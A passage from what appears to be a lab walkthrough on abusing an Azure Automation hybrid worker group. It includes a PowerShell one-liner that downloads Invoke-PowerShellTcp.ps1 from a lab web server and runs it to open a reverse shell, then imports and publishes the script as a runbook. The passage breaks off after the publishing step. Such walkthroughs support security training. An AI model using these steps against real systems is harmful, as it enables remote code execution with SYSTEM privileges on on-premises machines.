 ```powershell
RoleDefinitionName : Reader
ObjectId           : 6952723d-91a8-4624-95a8-5409fd49c7fd
ObjectType         : User
CanDelegate        : False
```

- The `Contributor` Role allows us to create and execute Runbooks.
- We can check whether there is a hybrid worker group that is used by the automation account.
```powershell
PS C:\Windows\system32> Get-AzAutomationHybridWorkerGroup -AutomationAccountName HybridAutomation -ResourceGroupName Engineering


ResourceGroupName     : Engineering
AutomationAccountName : HybridAutomation
Name                  : Workergroup1
RunbookWorker         : {defeng-adcsrv.defeng.corp}
GroupType             : User
```

- We have a hybrid worker. This is used by Runbooks that are executed at on-prem machines and runs with `nt authority\system` privileges. We can utilize that to obtain a reverse shell at `defeng-adcsrv.defeng.corp`. We will create a PowerShell script and use it as a PowerShell runbook, simultaneously hosting **Invoke-PowerShellTcp.ps1** at our web server (XAMPP-Port 82).
```powershell
powershell "IEX (New-Object Net.Webclient).downloadstring('http://172.16.150.72:82/Invoke-PowerShellTcp.ps1');Power -Reverse -IPAddress 172.16.150.72 -Port 5555"
```

- We can now import the PowerShell Runbook.
```powershell
PS C:\Windows\system32> Import-AzAutomationRunbook -Name student72 -Path C:\xampp\htdocs\student72.ps1 -AutomationAccountName HybridAutomation -ResourceGroupName Engineering -Type PowerShell -Force


Location              : switzerlandnorth
Tags                  : {}
JobCount              : 0
RunbookType           : PowerShell
Parameters            : {}
LogVerbose            : False
LogProgress           : False
LastModifiedBy        :
State                 : New
ResourceGroupName     : Engineering
AutomationAccountName : HybridAutomation
Name                  : student72
CreationTime          : 3/7/2024 1:33:23 AM -08:00
LastModifiedTime      : 3/7/2024 1:33:23 AM -08:00
Description           :
```

- We can publish the PowerShell Runbook so that it can be used.
```powershell
PS C:\Windows\system32> Publish-AzAutomationRunbook -RunbookName student72 -AutomationAccountName HybridAutomation -ResourceGroupName Engineering


Location              : switzerlandnorth
Tags                  : {}
JobCount              : 0
RunbookType           : PowerShell
Parameters            : {}
LogVerbose            : False
LogProgress           : False
LastModifiedBy        :
```